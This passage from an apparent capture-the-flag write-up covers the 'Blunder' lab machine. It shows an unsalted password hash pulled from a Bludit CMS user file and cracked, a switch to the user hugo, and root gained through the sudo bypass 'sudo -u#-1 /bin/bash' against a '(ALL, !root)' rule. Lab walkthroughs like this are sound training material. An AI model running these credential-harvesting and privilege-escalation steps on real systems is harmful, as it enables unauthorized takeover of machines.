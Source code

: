 We find some hashed and salted credentials (including the one we have) but are not able to crack these with a password cracker. After enumerating some more, we can see that there is a preview version of Bludit on the machine as well. We will look at the same file to see if there are any differences there.

```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
...
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
...
    }
}
```

We see a hashed and non-salted password for a user named `Hugo`. We can easily crack this with online database and get the password `Password120`. `Hugo` is a user on the machine as well so we can switch over to them and get the flag.

```
www-data@blunder:/$ su hugo
su hugo
Password: Password120

hugo@blunder:/$ cd
cd
hugo@blunder:~$ cat user.txt
cat user.txt
c5af0d**************************
```

## Root

In order to escalate to root, we can do some very basic enumeration.

```
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

With this, we see that `hugo` can run bash on the system as any user *except root*. Luckily, this is trivial to bypass. We can get around this, change to root, and get the flag.

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
0bcf34**************************
```
